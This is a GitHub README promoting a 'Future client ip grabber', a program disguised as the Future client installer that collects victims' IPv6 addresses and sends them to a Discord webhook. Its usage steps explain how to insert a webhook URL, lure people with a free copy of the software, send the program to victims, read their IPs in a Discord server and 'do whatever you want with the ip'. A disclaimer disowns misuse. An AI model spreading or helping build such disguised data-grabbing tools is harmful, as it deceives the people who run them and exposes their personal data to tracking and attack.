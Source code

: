 <p align="center">
  <a href="http://forthebadge.com/"><img src="https://forthebadge.com/images/badges/built-with-swag.svg" alt="forthebadge"/></a>
  <a href="http://forthebadge.com/"><img src="https://forthebadge.com/images/badges/mom-made-pizza-rolls.svg" alt="forthebadge"/></a>
</p>


<h1 align="center">🔧 Future client ip grabber 🔧 </h1>
<h3 align="center">If someone wants Future client for free, send them this, it has the same GUI as Future installer. Grabs victims IPv6 address and sends it through a discord webhook.
</h3>
<h4 align="center">⭐ Don't forget to leave a star! ⭐</h4>

## Usage

1. Go to releases tab and search for `https://github.com/Doundeway/Future-ip-grabber/releases/tag/1.0`
2. Paste your webhook into `sender webhook = new sender("https://discord.com/api/webhooks/{your webhook id}");`
3. Send it to your victim or victims
4. Join this discord server to see your victims ip `https://discord.gg/TbpbZ5Xnss`(if you decide to use the default webhook url)
5. Do whatever you want with the ip



## Disclaimer 

Any malicious usage with this code isnt our fault. You are responsible for your own actions.
